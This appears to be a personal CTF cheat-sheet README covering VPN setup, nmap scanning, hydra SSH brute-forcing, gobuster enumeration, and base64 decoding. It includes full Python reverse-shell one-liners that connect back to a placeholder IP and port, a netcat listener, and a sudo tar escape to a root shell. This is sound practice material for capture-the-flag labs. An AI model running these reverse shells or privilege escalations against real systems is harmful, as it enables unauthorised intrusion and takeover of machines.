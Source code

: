 # CTF-Notes

# How to connect to the vpn

**Use the command:**```openvpn [YOUR .ovpn FILE]```

# How to check if we are properly connected?

**Use the command:**```ping [IP]```

# Get my IP

We can do ```ip addr show tun0``` or ```ifconfig```

# Check if input allows python/python3

We can do ```python -c "print('Hello')"``` or ```python3 -c "print('Hello')"```

# Make a python script executable from command line

 1. Add ```#!/usr/bin/env python``` at the beginning of the script
 2. Make the file executable ```chmod +x myfile.py```
 3. Execute the script ```./myfile.py```

# If commands like "cat" are not allowed

We can use ```grep . file``` or ```while read line; do echo $line; done < file```

# PORTS

* **Check for open ports:** ```nmap [IP]``` [Guide](https://www.stationx.net/nmap-cheat-sheet/)

* **Types of ports and how to access them:** <br>
  * **Port 80:** Usually http
  * **Port 22:** Usually ssh
    * You can use the command ```ssh```
      * ```ssh [USERNAME]@[IP]```
      * It will ask for a password:
        * We can try and crack the password like: ```hydra -l [USERNAME | WORDLIST] -P [PASSWORD | WORDLIST] [IP] ssh```
  * **Port 21:** Usually ftp
    * You can use the command ```ftp```
      * ```ftp [IP]```
        * It will ask for logging information but you can sometimes use: ```anonymous``` without password
        * You can retrieve files inside ftp using  ```get```: ```get flag.txt```
        
# URL Directory Enumeration

* You can run the following command to enumerate the directories of a given URL:
  * ```gobuster dir -u "[URL | IP]" -w [Wordlist] ``` [Guide](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  
# Reverse Shell:

* If a website allows input or file upload without sanitation it will be possible to upload a reverse shell in order to gain access to the system.
  * **Upload the shell:**
    * File upload shell: <a href="php-reverse-shell.php">PHP shell</a> <- We must modify the IP(Our IP) and the PORT(9999)
    * Reverse shell in input: [More one liner shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
      * If python is allowed: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
      * If python3 is allowed: ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
  * **Access the shell:**
    * ```nc -lnvp [PORT]``` [Guide](https://linuxize.com/post/netcat-nc-command-with-examples/)
  * **Stabilize the shell:**
    1. Inside the shell ```python -c 'import pty; pty.spawn(\"/bin/bash\")'```
    2. Ctrl+Z
    3. ```stty raw -echo```
    4. ```fg```
    5. ```export TERM=xterm```
                    
# Privilage Escalation

* If you are inside of the vulnerable system you can try to escalate your user privilege as root like:
  * Use ```sudo -l``` to see what types of privileges the user has.
    * If you see ```(ALL : ALL) ALL```, just call ```sudo bash``` and you will become root.
    * Other privileges: [Check for exploits](https://gtfobins.github.io/)
      * tar: ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
      
# Find all files in system by name.

We can do ```find / -name [FILENAME]``` or ```find /* | grep [FILENAME]```

# Criptography

* **Base 64:** If we see a combination of letters and numbers, it may be Base 64 encoding, the best way to find out if it contains at least one '=' at the end.
  * How to decypher:
    * In linux: ```echo [BASE64 STRING] | base64 -d``` 
    * Online: [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true))
